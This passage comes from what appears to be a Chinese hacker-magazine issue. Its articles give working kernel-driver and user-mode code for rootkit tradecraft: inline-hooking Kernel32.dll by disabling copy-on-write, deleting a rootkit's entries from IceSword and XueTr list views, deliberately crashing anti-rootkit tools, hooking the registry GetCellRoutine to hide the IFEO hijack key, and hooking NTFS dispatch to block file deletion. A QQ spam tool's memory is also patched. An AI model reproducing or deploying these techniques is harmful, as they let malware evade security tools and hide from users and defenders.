#define IOCTL_RECOVER_MEMORY CTL_CODE(FILE_DEVICE_UNKNOWN, 0x820, METHOD_BUFFERED, FILE_ANY_ACCESS) // 恢复
```

关于在应用程序中如何取得函数地址、查找“空洞”的方法这里不再赘述，主要是一些 PE 格式的处理，详见源代码。程序在 Kernel32.dll 的“空洞”处插入一段十六进制编码：

```c
BYTE msg[44]={
  0x60, // pushad
  ...
  0x74,0x65,0x73,0x74,0x00,0x00, // "test"
  ...
  0x68,0x65,0x6C,0x6C,0x6F,0x00,0x00, // "hello"
  ...
  0xE8,0x00,0x00,0x00,0x00, // call messagebox
  0x61, // popad
  ...
  0xE9,0x00,0x00,0x00,0x00 // jmp func
};
```

此段编码是弹出 MessageBox 对话框，关键是计算 CALL MessageBox 和 JMP func 处的相对地址，计算公式如下：

CalMsg=(DWORD)AddressOfMsg-((DWORD)pDosHeader+OffsetGap+33);

JmpOrg=(DWORD)AddressOfFunction+5-((DWORD)pDosHeader+OffsetGap+44)

AddressOfMsg 为 MessageBox 的函数地址，AddressOfFunction 是 Hook 函数的地址，pDosHeader 为 Kernel32.dll 的基地址，OffsetGap 为“空洞”的偏移地址。之后将计算出的地址写入 msg 的相应位置。准备工作做完之后与驱动程序通信，禁用 Copy-On-Write，对 Kernel32.dll 进行写操作。通信部分代码如下：

```c
// 打开驱动程序
HANDLE hFile = CreateFile("\\\\.\\slDriver", GENERIC_READ|GENERIC_WRITE,0,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);
if(hFile==INVALID_HANDLE_VALUE){ printf("Create device failed!\n"); return; }

// 确定要修改的内存地址和大小
PCOPY_ON_WRITE_MEMORY pInline = (PCOPY_ON_WRITE_MEMORY)new char[sizeof(COPY_ON_WRITE_MEMORY)+2];

pInline->Base=(PVOID)AddressOfFunction;
pInline->Size=5;

/* 此处对要修改处的内存进行一次读操作，确保已被映射 */
int flag=0;
if (*(QWORD*)pInline->Base == 0xfff3) flag=0; else flag=1;
DWORD dwRet;

// 与驱动进行通信，禁用 Copy-On-Write
DeviceIoControl(hFile, IOCTL_MODIFY_MEMORY, pInline, sizeof(COPY_ON_WRITE_MEMORY)+2, NULL, NULL, &dwRet, NULL);

// 对函数头 5 个字节进行写操作
memcpy(pInline->Base, ModifyCode, pInline->Size);

// 恢复页面的属性
DeviceIoControl(hFile, IOCTL_RECOVER_MEMORY, pInline, sizeof(COPY_ON_WRITE_MEMORY)+2, NULL, NULL, &dwRet, NULL);

delete []pInline;
CloseHandle(hFile);
```

驱动部分主要实现 I/O 控制的派遣函数，它接受应用程序传入的页面信息，然后禁用修改页面的 Copy-On-Write 机制，待应用程序修改完毕恢复原有的属性。关键代码如下：

```c
pMM=(PCOPY_ON_WRITE_MEMORY)pIoBuffer;
// 获取待修改数据区域地址和大小
pMem = pMM->Base;
ulMemSize = pMM->Size;

BOOLEAN PAE;
// 判断是否启用 PAE 模式
PAE = ExIsProcessorFeaturePresent(PF_PAE_ENABLED);
if(PAE==TRUE){
  // 按照 PAE page mode 尝试计算 PDE 和 PTE
  ulPDEB = ((((ULONG)pMem)>>18)&0x3FF8)+0xC0600000;
  ulPTEB = ((((ULONG)pMem)>>9)&0x7FFFF8)+0xC0000000;
  bPDEB = MmIsAddressValid((PVOID)ulPDEB);
  bPTEB = MmIsAddressValid((PVOID)ulPTEB);
  if(!(bPDEB | bPTEB)) return STATUS_UNSUCCESSFUL;
}else{
  // 按照 Non PAE page mode 计算
  ulPDEB = ((((ULONG)pMem)>>20)&0xFFC)+0xC0300000;
  ulPTEB = ((((ULONG)pMem)>>10)&0x3FFFFC)+0xC0000000;
}

switch(uIoControlCode){
case IOCTL_MODIFY_MEMORY:
  // 禁用指定内存的 Copy on write 机制
  *(PULONG)ulPTEB |= 0x00000002;
  break;

status = STATUS_SUCCESS;
break;
case IOCTL_RECOVER_MEMORY:
  // 恢复指定内存的 Copy on write 机制
  *(PULONG)ulPTEB &= ~0x00000002;
  status = STATUS_SUCCESS;
  break;
}
```

##### 后记

以上代码在 Windows XP SP2 + VC 6.0 下测试成功。源代码中驱动的加载及卸载并没有实现，可用 DriverMonitor 加载查看。另外，Kernel32.dll 中插入的十六进制编码只弹出了一个对话框，至于如何继续完善，大家可以自行处理。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

以上代码中 ulMemSize 并没有用到，但在源代码中对 pMem+ulMemSize 的内存处作了同样处理，以防受修改的内存不在同一页面。至此，禁用 Copy-On-Write 机制实现全局 Hook 的功能已全部实现。

前置知识：VB  
关键词：编程、ARK、进程隐藏

##### 如何实现无驱动隐藏自己

文/图 胡文亮

刚开始学底层编程的时候，特别喜欢“打打杀杀”，比如弄个驱动“强制”结束杀毒软件，或者是模拟点击关闭冰刃。现在想起来，真是一点意义都没有。因为一个有商用价值的 Rootkit，是不能乱杀进程的，而是要通过更加巧妙的办法隐藏自身。上次我在《钩子的另类用法》中提到了 Hook MmIsAddressValid 来逃过冰刃、狙剑、PsNull 的进程检测。不过用到了驱动，这次再提供一个方法，连驱动都不需要使用。

很久以前《黑客防线》曾经有过一篇文章《另类方式隐藏进程》，作者想到了一个另类的办法在“任务管理器”中隐藏进程：发送消息修改“任务管理器”中自己进程的名字，使得用户辨认不出异常的进程。他的思路启发了我，但我认为在“任务管理器”中隐藏进程没有什么意义，在 ARK 中隐藏进程才有意义。不仅仅只是进程，还有其他与自己相关的东西：文件、自启动项。在此，我以冰刃为例做说明。

首先我们要找到冰刃的列表框句柄和 PID。直接使用 FindWindowEx 肯定是不行的，因为冰刃为了防止窗口攻击，做了随机窗口标题名和随机窗口类型名。我们要使用 EnumWindow 结合冰刃的窗口特征才能得到冰刃的列表框句柄。

```vb
Dim hWnd1, hWnd2 As Long
hWnd1 = FindWindowEx(hwnd, 0, "AfxMDIFrame42s", vbNullString) ' 冰刃的两个特征
hWnd2 = FindWindowEx(hwnd, 0, "AfxControlBar42s", vbNullString)
If hWnd1 <> 0 And hWnd2 <> 0 Then
    ISlvParent = hWnd1 : MsgBox Hex(ISlvParent)
    GetWindowThreadProcessId hwnd, GetPid
End If
EnumWindowsProc = True
End Function

Public Function FindIceswordPid() As Long
    EnumWindows AddressOf EnumWindowsProc, 0
    FindIceswordPid = GetPid
End Function

Public Function GetISListViewHandle() As Long
    FindIceswordPid
    ISlvParent = FindWindowEx(ISlvParent, 0, "AfxMDIFrame42s", vbNullString)
    GetISListViewHandle = FindWindowEx(ISlvParent, 0, "SysListView32", vbNullString)
End Function

Private Function EnumWindowsProc(ByVal hwnd As Long, ByVal lParam As Long) As Long
```

如果是搞窗口攻击就简单了，消息洪水一过去，冰刃就挂了，但是我们今天不使用暴力，而是使用智慧。接下来要得到冰刃列表框的内容：

```vb
********************************
'** 函数名: GetListviewItem
'** 输入  : ByVal hWindow(Long)  - ListView 控件句柄
'**      : ByVal ProcessID(Long) - 进程ID
```

```vb
' GetListviewItem 函数（节选）
' 输入: ByVal pColumn(Long), ByVal pRow(Long)
' 输出: (String)
' 功能: 得到 ListView 控件中某个 Item 的内容

Public Function GetListviewItem(ByVal hWindow As Long, ByVal ProcessID As Long, ByVal pColumn As Long, ByVal pRow As Long) As String
    Dim Result As Long
    Dim myItem As LV_ITEMA
    Dim pHandle As Long
    Dim pStrBufferMemory As Long
    Dim pMyItemMemory As Long
    Dim strBuffer() As Byte
    Dim tmpString As String

    ReDim strBuffer(MAX_LVMSTRING)
    pHandle = OpenProcess(PROCESS_VM_OPERATION Or PROCESS_VM_READ Or PROCESS_VM_WRITE, False, ProcessID)
    pStrBufferMemory = VirtualAllocEx(pHandle, 0, MAX_LVMSTRING, MEM_COMMIT, PAGE_READWRITE)

    myItem.mask = LVIF_TEXT
    myItem.iSubItem = pColumn
    myItem.pszText = pStrBufferMemory
    myItem.cchTextMax = MAX_LVMSTRING

    pMyItemMemory = VirtualAllocEx(pHandle, 0, Len(myItem), MEM_COMMIT, PAGE_READWRITE)
    Result = WriteProcessMemory(pHandle, pMyItemMemory, myItem, Len(myItem), 0)

    Result = SendMessage(hWindow, LVM_GETITEMTEXT, pRow, ByVal pMyItemMemory)
    Result = ReadProcessMemory(pHandle, pStrBufferMemory, strBuffer(0), MAX_LVMSTRING, 0)

    tmpString = StrConv(strBuffer, vbUnicode)
    If InStr(tmpString, Chr$(0)) > 0 Then tmpString = Left$(tmpString, InStr(tmpString, Chr$(0)) - 1)
    tmpString = Trim$(tmpString)

    Result = VirtualFreeEx(pHandle, pStrBufferMemory, 0, MEM_RELEASE)
    Result = VirtualFreeEx(pHandle, pMyItemMemory, 0, MEM_RELEASE)
    Result = CloseHandle(pHandle)

    If Len(tmpString) > 0 Then GetListviewItem = tmpString
End Function
```

这里使用到了冰刃的进程句柄，我们直接从 CSRSS 中复制过来就行了，不需要恢复其 Inline Hook。关于复制句柄及其原理的问题，这里就不赘述了，直接使用网上的开源模块 mProcess.bas。我们进行如下调用即可。

```vb
szFileName = GetListviewItem(lSwnd, lSpid, 0, 0)
Do While szFileName <> ""
    szFileName = GetListviewItem(lSwnd, lSpid, 0, i)
    AllFiles = AllFiles & szFileName & vbCrLf
    i = i + 1
Loop
```

首先取列表框的第 0 列和第 0 行，如果不为空，就一直取第 N 列和第 0 行，直到取得空值为止。接下来，看看取到的值有没有我们自己的进程，如果有，就把那一行删除：

```vb
ss = Split(AllFiles, vbCrLf)
For i = 0 To UBound(ss)
    If LCase(ss(i)) = RKName Then
        ListView_DelItem lSwnd, i
        Exit For
    End If
Next
```

ListView_DelItem 的代码如下：

```vb
' 函数名: ListView_DelItem
' 输入: ByVal hwnd(Long) - ListView 控件句柄
'      ByVal i(Long) - 行
' 输出: 无
' 功能描述: 删除其他程序 ListView 控件中的某行 Item

Public Function ListView_DelItem(ByVal hwnd As Long, ByVal i As Long) As Boolean
    ListView_DelItem = CBool(SendMessage(hwnd, LVM_DELETEITEM, i, 0))
End Function
```

之后直接发送消息即可。对自身在“自启动项”中的内容也如法炮制，不过要改成第 N 列和第 1 行。

```vb
i = 0
AllFiles = ""
szFileName = GetListviewItem(lSwnd, lSpid, 1, 0)
Do While szFileName <> ""
    szFileName = GetListviewItem(lSwnd, lSpid, 1, i)
    MsgBox szFileName
    AllFiles = AllFiles & szFileName & vbCrLf
    i = i + 1
Loop

ss = Split(AllFiles, vbCrLf)
For i = 0 To UBound(ss)
    If LCase(ss(i)) = RKName Then
        ListView_DelItem lSwnd, i
        Exit For
    End If
Next
```

把这些代码放到一个 Timer 中，这样的话，在冰刃的进程、自启动项、文件和注册表中就完全看不到我们自己的信息了。时间间隔定为 1000ms，此时单个进程的平均 CPU 占用率约为 25%。

图1和图2所示。


图1


图2

有人说，现在知名的ARK可不只冰刃，好像XueTr也挺出名吧？XueTr不能复制进程句柄，不能发送消息，怎么办？答曰：XueTr确实不能复制进程句柄，不能发送消息，可惜XueTr不能阻止消息钩子侵入，所以只要用SetWindowsHookEx的方式把DLL注入到XueTr内即可。

又有人说ARK这么多，能全部这么做吗？确实不能，但当注入的DLL检测到此进程是ARK后，会马上执行代码：“Call RtlMoveMemory(1,2,3)”，效果出奇地好，如图3所示。一般的用户会以为是软件设计者的问题，而不会认为是Rootkit搞的鬼。


图3

还有较真的人说：狙剑和RkU用SetWindowsHookEx注入是无效的，怎么把DLL注入进去？其实我早在2009年10月写的《BASIC语言实现Ring3全局Inline Hook》中就提出了解决方法：写一个Ring3挂钩NtResumeThread的DLL，注入到explorer.exe（一般人都是用explorer.exe启动ARK，不需要全局注入），当explorer.exe再次创建进程的时候，此DLL就会自动注入到新进程里去（不管是GUI进程还是CUI进程），即使那个进程在启动之前已经加载了驱动也不能阻止。这个方法是我见过的最好的DLL注入法了，目前还没有发现注入不进去的进程。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：编程、PE文件、QQ

## 修改QQ群发器

文/图 GF

某日无聊闲逛威客网，发现一个修改QQ群发器的悬赏项目。程序是用易语言编写的，尝试了一下，效果还不错。原理大致应该是模拟用户操作，获取指定窗口句柄，post鼠标消息，打开每个网友或者群窗口，再探测句柄，写入数据，post鼠标消息发送本条数据。按照用户的要求，是去掉每条QQ消息后面的尾巴，如图1所示。后两行字是程序自动加上的，整条信息是以图片的形式发送。


图1

### 修改思路一：修改PE文件

这算是一劳永逸的办法，可是事实上却并非如此。PEiD显示没有加壳，具体说是“什么也没发现”，极有可能存在无法识别的壳。载入静态分析器，没有找到关键字符串。直接用WinHex打开，以“52P”和“论坛”为关键字搜索ASCII，如图2所示，后面的URL看起来怪怪的，估计采用替换做了什么障眼法。不管了，先修改一个试试，想不到竟然出错了，如图3所示。

直接用WinHex修改，再发送消息，成功了！如图5，URL中的数字5变成了1。用不同的计算机测试，发现该数据地址0x4055A8是恒定不变的，这就更为我们提供了方便。


图2


图4


图3


图5

根据经验，这不是Windows给出的提示。由于没接触过易语言，不知是易语言的提示还是程序本身的提示。不过后者的可能性更大，想到这里不禁心一沉：这玩意不会检测自身完整性吧？遂随便找一个新空白数据地址改写一个字节，果然出错！

至此，完全可以考虑该软件被加过壳，引导的程序负责判断程序完整性。载入OD果然提示程序被修改或者具备自修改功能。修改后的程序，在OD里跟踪到输入表填写操作：函数名 + GetProcAddress，很明显引导程序在自建输入表。但是OD也只能跟踪到这里，因为程序本身又具备了反调试功能！

到这里我就基本上不想浪费时间继续走下去了，因为我突然想到一个曲线达到目的的办法。

###### 修改思路二：直接操作内存

我想到的便是直接操作内存。无论你在PE文件里如何叱咤风云，最后返回到内存的数据如果没做处理，依然会被打回原形。调出WinHex，果然如期找到了字符串，如图4所示。

###### 代码编写思路与实现

考虑到用户的实用性，这么小一个软件我们不可能还使用“外挂”的操作方式，确保能达到直接修改PE的效果。因此，我们可以考虑类似木马服务端的配置方式，将修改程序包含到我们破解的程序里，由破解程序CreateProcess群发程序，拿到进程句柄后，WriteProcessMemory群发程序。由于数据地址是恒定的，代码更为简洁。

```c
// 省略文件释放代码
PROCESS_INFORMATION pi;
STARTUPINFO si;
ZeroMemory(&si, sizeof(STARTUPINFO));
char urlname[20] = "magicdog";
// 修改末尾，替换成 magicdog 或者空白
CreateProcess(L"qunfa.dat", NULL, 0, 0, 0, CREATE_DEFAULT_ERROR_MODE, 0, 0, &si, &pi);
PVOID p = (PVOID)0x4055a8;
WriteProcessMemory(pi.hProcess, p, urlname, sizeof(urlname), 0);
```

至于破解文件的包含与释放算法，个人觉得不要用资源方式，一个是编写麻烦，另外现在很多主动防御也监视相关API，防止木马释放文件。所以，可以采用二进制数组的方式，即将破解程序的二进制代码放在数组里，然后通过CreateFile来释放文件。

- 前置知识：VC
- 关键词：编程、XueTr、注册表

## 打造绕过XueTr的注册表项隐藏


文/胡文亮（Tesla.Angela）

XueTr算是目前最强的ARK工具了（个人认为冰刃、狙剑、RkU已经有廉颇老矣的感觉），绕过XueTr是我一直以来的愿望。绕过XueTr的进程隐藏直接使用“进程注入”的方法（代码请参考本人拙文《Ring3下废除微点主动防御》）即可（比如启动傀儡进程svchost.exe来执行自己的恶意EXE，把傀儡svchost.exe的父进程ID修改为services.exe的PID，把傀儡svchost.exe的进程创建时间修改为正常svchost.exe的进程创建时间，还有把傀儡svchost.exe的用户名修改为SYSTEM），绕过XueTr的文件隐藏用畸形文件夹（如C:\WINDOWS\WinSxS\...\）的方法即可（可惜仅支持FAT32文件系统），但对于怎样绕过XueTr的注册表检测这一度让我一筹莫展，只能用GUI HACKER（发送消息给ListView把要隐藏的项删除）这种“耍赖方法”绕过。近日网友“渔家傲”给我提供了一份代码，用“正经方法”绕过了XueTr的注册表检测，现借助黑防这个平台把这种方法公布出来，在此特地感谢“渔家傲”。

我们知道，在用户层枚举一个键的子键主要使用RegEnumKeyEx这个API，到了内核层就是NtEnumerateKey。然而NtEnumerateKey接着又调用了什么函数？经过用WinDbg对这个函数反汇编，可以得知是CmEnumerateKey：

```asm
nt!NtEnumerateKey+0x1d5:
80571e1c 56                push    esi
80571e1d ff7518            push    dword ptr [ebp+18h]
80571e20 ff7514            push    dword ptr [ebp+14h]
80571e23 ff7510            push    dword ptr [ebp+10h]
80571e26 ff750c            push    dword ptr [ebp+0Ch]
80571e29 ff7704            push    dword ptr [edi+4]
80571e2e e83dfeffff        call    nt!CmEnumerateKey
80571e31 8945e4            mov     dword ptr [ebp-1Ch],eax
```

这个函数实现的完整代码如下（摘自WRK1.2）：

```c
NTSTATUS CmEnumerateKey(
    IN PCM_KEY_CONTROL_BLOCK KeyControlBlock,
    IN ULONG Index,
    IN KEY_INFORMATION_CLASS KeyInformationClass,
    IN PVOID KeyInformation,
    IN ULONG Length,
    IN PULONG ResultLength
)
{
    NTSTATUS status;
    HCELL_INDEX childcell;
    PHHIVE Hive;
    HCELL_INDEX Cell;
    PCM_KEY_NODE Node;
    HV_TRACK_CELL_REF CellRef = {0};
    ...
}
```

```c
CmpUnlockRegistry();
return STATUS_KEY_DELETED;
}
Hive = KeyControlBlock->KeyHive;
Cell = KeyControlBlock->KeyCell;
// Mark the hive as read only
CmpMarkAllBinsReadOnly(Hive);
// fetch the child of interest
Node = (PCM_KEY_NODE)HvGetCell(Hive, Cell);
if (Node == NULL) {
    // we couldn't map a view for the bin containing this cell
    ...
    return STATUS_INSUFFICIENT_RESOURCES;
}
childcell = CmpFindSubKeyByNumber(Hive, Node, Index);
...
status = CmpQueryKeyData(Hive, Node, KeyInformationClass, KeyInformation, Length, ResultLength);
...
return status;
```

这里有很关键的一句代码：“Hive = KeyControlBlock->KeyHive;”。这份代码里面涉及了一大堆未公开的数据结构，这里给出了几个用到的重要结构体（我的系统是Windows XP SP3，不同系统的结构体可能会不同）：

```text
lkd> dt _CM_KEY_NODE
nt!_CM_KEY_NODE
 +0x000 Signature      : Uint2B
 +0x002 Flags          : Uint2B
 +0x004 LastWriteTime  : _LARGE_INTEGER
 +0x00c Spare          : Uint4B
 +0x010 Parent         : Uint4B
 +0x014 SubKeyCounts   : [2] Uint4B
 +0x01c SubKeyLists    : [2] Uint4B
 +0x024 ValueList      : _CHILD_LIST
 +0x01c ChildHiveReference : _CM_KEY_REFERENCE
 +0x02c Security       : Uint4B
 +0x030 Class          : Uint4B
 +0x034 MaxNameLen     : Pos 0,16 Bits
 +0x034 UserFlags      : Pos 16,4 Bits
 +0x034 VirtControlFlags : Pos 20,4 Bits
 +0x034 Debug          : Pos 24,8 Bits
 +0x038 MaxClassLen    : Uint4B
 +0x03c MaxValueNameLen: Uint4B
 +0x040 MaxValueDataLen: Uint4B
 +0x044 WorkVar        : Uint4B
 +0x048 NameLength     : Uint2B
 +0x04a ClassLength    : Uint2B
 +0x04c Name           : [1] Uint2B

lkd> dt _CM_KEY_INDEX
nt!_CM_KEY_INDEX
 +0x000 Signature      : Uint2B
 +0x002 Count          : Uint2B
 +0x004 List           : [1] Uint4B

lkd> dt _CM_KEY_BODY
nt!_CM_KEY_BODY
 +0x000 Type           : Uint4B
 +0x004 KeyControlBlock: Ptr32 _CM_KEY_CONTROL_BLOCK
 +0x008 NotifyBlock    : Ptr32 _CM_NOTIFY_BLOCK
 +0x00c ProcessID      : Ptr32 Void
 +0x010 Callers        : Uint4B
 +0x014 CallerAddress  : [10] Ptr32 Void
 +0x03c KeyBodyList    : _LIST_ENTRY

lkd> dt _HHIVE
nt!_HHIVE
 +0x000 Signature      : Uint4B
 +0x004 GetCellRoutine : Ptr32 _CELL_DATA*
 +0x008 ReleaseCellRoutine : Ptr32 void
 +0x00c Allocate       : Ptr32 void*
 +0x010 Free           : Ptr32 void
 +0x014 FileSetSize    : Ptr32 unsigned char
 +0x018 FileWrite      : Ptr32 unsigned char
 +0x01c FileRead       : Ptr32 unsigned char
 +0x020 FileFlush      : Ptr32 unsigned char
 +0x024 BaseBlock      : Ptr32 _HBASE_BLOCK
 +0x028 DirtyVector    : _RTL_BITMAP
 +0x030 DirtyCount     : Uint4B
 +0x034 DirtyAlloc     : Uint4B
 +0x038 RealWrites     : UChar
 +0x03c Cluster        : Uint4B
 +0x040 Flat           : UChar
 +0x041 ReadOnly       : UChar
 +0x042 Log            : UChar
 +0x044 HiveFlags      : Uint4B
 +0x048 LogSize        : Uint4B
```

```text
 +0x04c RefreshCount   : Uint4B
 +0x050 StorageTypeCount : Uint4B
 +0x054 Version        : Uint4B
 +0x058 Storage        : [2] _DUAL

lkd> dt _CM_KEY_CONTROL_BLOCK
nt!_CM_KEY_CONTROL_BLOCK
 +0x000 RefCount       : Uint4B
 +0x004 ExtFlags       : Pos 0,8 Bits
 +0x004 PrivateAlloc   : Pos 8,1 Bit
 +0x004 Delete         : Pos 9,1 Bit
 +0x004 DelayedCloseIndex : Pos 10,12 Bits
 +0x004 TotalLevels    : Pos 22,10 Bits
 +0x008 KeyHash        : _CM_KEY_HASH
 +0x008 ConvKey        : Uint4B
 +0x00c NextHash       : Ptr32 _CM_KEY_HASH
 +0x010 KeyHive        : Ptr32 _HHIVE
 +0x014 KeyCell        : Uint4B
 +0x018 ParentKcb      : Ptr32 _CM_KEY_CONTROL_BLOCK
 +0x01c NameBlock      : Ptr32 _CM_NAME_CONTROL_BLOCK
 +0x020 CachedSecurity : Ptr32 _CM_KEY_SECURITY_CACHE
 +0x024 ValueCache     : _CACHED_CHILD_LIST
 +0x02c IndexHint      : Ptr32 _CM_INDEX_HINT_BLOCK
 +0x02c HashKey        : Uint4B
 +0x02c SubKeyCount    : Uint4B
 +0x030 KeyBodyListHead: _LIST_ENTRY
 +0x030 FreeListEntry  : _LIST_ENTRY
 +0x038 KcbLastWriteTime : _LARGE_INTEGER
 +0x040 KcbMaxNameLen  : Uint2B
 +0x042 KcbMaxValueNameLen : Uint2B
 +0x044 KcbMaxValueDataLen : Uint4B
 +0x048 KcbUserFlags   : Pos 0,4 Bits
 +0x048 KcbVirtControlFlags : Pos 4,4 Bits
 +0x048 KcbDebug       : Pos 8,8 Bits
 +0x048 Flags          : Pos 16,16 Bits
```

怎么隐藏指定的项呢？方法很简单：打开需隐藏的键 -> 获取该键的KeyControlBlock -> 由KCB得到Hive -> 获取需隐藏的节点并保存 -> 挂钩GetCell例程。需要注意的是，KCB中的两个重要偏移（KeyHive、KeyCell）在不同系统是不同的，比如在Windows 2000系统上这两者的偏移分别是0xC和0x10，而在Windows XP和Windows 2003系统上是0x10和0x14。至于NT6系列系统的偏移是多少，请自己在WinDbg里用dt命令查之。实现的代码如下（隐藏了IFEO项）：

```c
HANDLE OpenKeyByName(PCWSTR pwcsKeyName)
{
    NTSTATUS status;
    UNICODE_STRING uKeyName;
    OBJECT_ATTRIBUTES oa;
    HANDLE hKey;

    RtlInitUnicodeString(&uKeyName, pwcsKeyName);
    InitializeObjectAttributes(&oa, &uKeyName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);
    status = ZwOpenKey(&hKey, KEY_READ, &oa);
    if (NT_SUCCESS(status))
    {
        ...
    }
}
```

```c
DbgPrint("ZwOpenKey Failed: %lx\t", status);
return NULL;
}
return hKey;
}

PVOID GetKeyControlBlock(HANDLE hKey)
{
    NTSTATUS status;
    PCM_KEY_BODY KeyBody;
    PVOID KCB;
    if (hKey == NULL) return NULL;
    // 由 Key 句柄获取对象体
    status = ObReferenceObjectByHandle(hKey, KEY_READ, NULL, KernelMode, &KeyBody, NULL);
    if (!NT_SUCCESS(status)) {
        DbgPrint("ObReferenceObjectByHandle Failed: %lx\n", status);
        return NULL;
    }
    // 对象体中含有 KeyControlBlock
    KCB = KeyBody->KeyControlBlock;
    DbgPrint("KeyControlBlock = %lx\t", KCB);
    ObDereferenceObject(KeyBody);
    return KCB;
}

VOID HideKey()
{
    // 打开需隐藏的键
    hKey = OpenKeyByName(g_HideKeyName);
    // 获取该键的 KeyControlBlock
    KCB = GetKeyControlBlock(hKey);
    if (KCB) {
        // 由 KCB 得到 Hive
        PHHIVE Hive = (PHHIVE)GET_PTR(KCB, KeyHive);
        // GetCellRoutine 在 KCB 中，保存原地址
        g_ppGetCellRoutine = &Hive->GetCellRoutine;
        g_pGetCellRoutine = Hive->GetCellRoutine;
        DbgPrint("GetCellRoutine = %lx\n", g_pGetCellRoutine);
        // 获取需隐藏的节点并保存
        g_HideNode = (PCM_KEY_NODE)g_pGetCellRoutine(Hive, GET_PTR(KCB, KeyCell));
        // 挂钩 GetCell 例程
        Hive->GetCellRoutine = MyGetCellRoutine;
    }
    ZwClose(hKey);
}
```

```c
// 返回前是需要隐藏的节点
if (pRet == g_HideNode) {
    DbgPrint("GetCellRoutine(%lx, %08lx) = %lx\n", Hive, Cell, pRet);
    // 查询、保存并返回其父键的最后一个子键的节点
    pRet = g_LastNode = (PCM_KEY_NODE)GetLastKeyNode(Hive, g_HideNode);
    DbgPrint("g_LastNode = %lx\n", g_LastNode);
    // 隐藏的正是最后一个节点，返回空值
    if (pRet == g_HideNode) pRet = NULL;
}
// 返回前是先前保存的最后一个节点
else if (pRet == g_LastNode) {
    DbgPrint("GetCellRoutine(%lx, %08lx) = %lx\n", Hive, Cell, pRet);
    // 清空保存值，并返回空值
    pRet = g_LastNode = NULL;
}
return pRet;
}

PVOID GetLastKeyNode(PVOID Hive, PCM_KEY_NODE Node)
{
    // 获取父键的节点
    PCM_KEY_NODE ParentNode = (PCM_KEY_NODE)g_pGetCellRoutine(Hive, Node->Parent);
    // 获取子键的索引
    PCM_KEY_INDEX Index = (PCM_KEY_INDEX)g_pGetCellRoutine(Hive, ParentNode->SubKeyLists[0]);
    DbgPrint("ParentNode=%lx\tIndex=%lx\t", ParentNode, Index);
    // 如果为根(二级)索引，获取最后一个索引
    if (Index->Signature == CM_KEY_INDEX_ROOT) {
        Index = (PCM_KEY_INDEX)g_pGetCellRoutine(Hive, Index->List[Index->Count - 1]);
        DbgPrint("Index=%lx\n", Index);
    }
    if (Index->Signature == CM_KEY_FAST_LEAF || Index->Signature == CM_KEY_HASH_LEAF) {
        // 快速叶索引(2k)或散列叶索引(XP/2k3)，返回最后的节点
        return g_pGetCellRoutine(Hive, Index->List[2 * (Index->Count - 1)]);
    } else {
        // 一般叶索引，返回最后节点
        return g_pGetCellRoutine(Hive, Index->List[Index->Count - 1]);
    }
}
```

最后的那句“`Hive->GetCellRoutine = MyGetCellRoutine;`”是画龙点睛之笔。接着看看在 `MyGetCellRoutine` 中需要怎么处理，代码如下：

```c
WCHAR g_HideKeyName[] = L"\\Registry\\Machine\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options";

PVOID MyGetCellRoutine(PVOID Hive, HANDLE Cell)
{
    // 调用原函数
    PVOID pRet = g_pGetCellRoutine(Hive, Cell);
    if (pRet) {
        ...
    }
}
```

注意在卸载驱动的时候，一定要取消对 `GetCell` 例程的挂钩，否则必定蓝屏，卸载代码为：`if (g_ppGetCellRoutine) *g_ppGetCellRoutine = g_pGetCellRoutine;`。经测试，冰刃、狙剑、XueTr、注册表编辑器、Icelight 都不能枚举 IFEO 项了，如图 1 和图 2 所示。

| 文件关联 | 映像劫持 | 系统防火墙规则 |
|---|---|---|
| 名称 | 选择路径 |  |
| notepad.exe | calc |  |

图 1 挂钩前（XueTr-0.33）

| 文件关联 | 映像劫持 | 系统防火墙规则 |
|---|---|---|
| 名称 | 选择路径 |  |

图 2 挂钩后（XueTr-0.33）

不过映像劫持的效用并没有失去，启动“记事本”的时候依然启动了“计算器”。由于不是 Inline Hook，所以任何 ARK 都检测不出异常。尽管 XueTr 还能通过直接解析 HIVE 的方式找到 IFEO 项，但是不能进行任何操作。

本文涉及的代码在底层，只在 Windows XP/2003 上测试通过。修改一下硬编码，应该还能用于其他系统，这就留给大家自己根据实际情况来实现吧。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VB
- 关键词：编程、Hook、防删除

##### 底层函数的文件防删除


文/图 胡文亮

在我的印象里，黑防里关于文件防删的文章不多，所以下面就献上我对文件防删的研究成果。由于本文的标题是“底层函数的文件防删除”，所以 SSDT Hook、ZwSetInformationFile 这种表层函数的文件防删就不写了。

###### 初级防删：FSD Inline Hook

FSD Hook 是一般杀毒软件用来保护自身文件的常规方式，比如瑞星杀毒软件，但却没有一款杀毒软件使用 FSD Inline Hook。在我的记忆中，貌似只有 CNNIC 的那款流氓软件使用过。我们常用的文件系统 FAT32 和 NTFS（驱动名分别为 FASTFAT.SYS 和 NTFS.SYS）有多个分发例程，与文件修改或删除相关的就是 IRP_MJ_SET_INFORMATION。我们只要 Hook 住这个例程，就能拦截修改和删除文件相关操作。要 Hook 住这个例程，首先要知道这个例程的地址：

```c
ULONG NtfsDispatch = 0x0; // NTFS.SYS 中 IRP_MJ_SET_INFORMATION 的地址
PULONG NtfsMajorFunction = NULL;

BOOLEAN GetNtfsMajorFunctionAddr()
{
    PDRIVER_OBJECT pDriverObject;
    UNICODE_STRING DeviceName;
    NTSTATUS ntStatus;
    BOOLEAN bRet = FALSE;
    ...
}
```

```c
BOOLEAN bRet = FALSE;
RtlInitUnicodeString(&DeviceName, L"\\FileSystem\\Ntfs");
ntStatus = ObReferenceObjectByName(&DeviceName,
    OBJ_CASE_INSENSITIVE, NULL, 0, *IoDriverObjectType,
    KernelMode, NULL, (PVOID*)&pDriverObject);
if (!NT_SUCCESS(ntStatus))
    goto _end;
NtfsMajorFunction = (PULONG)pDriverObject->MajorFunction;
bRet = TRUE;
_end:
return bRet;
...
NtfsDispatch = NtfsMajorFunction[IRP_MJ_SET_INFORMATION];
```

在我们自己的 `FAKE_IRP_MJ_SET_INFORMATION` 中，则需要如下处理：

```c
NTSTATUS DrvDispatch(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    NTSTATUS st = STATUS_SUCCESS;
    PIO_STACK_LOCATION pIrpStack;
    UNICODE_STRING nowfile;
    UNICODE_STRING ptfile;
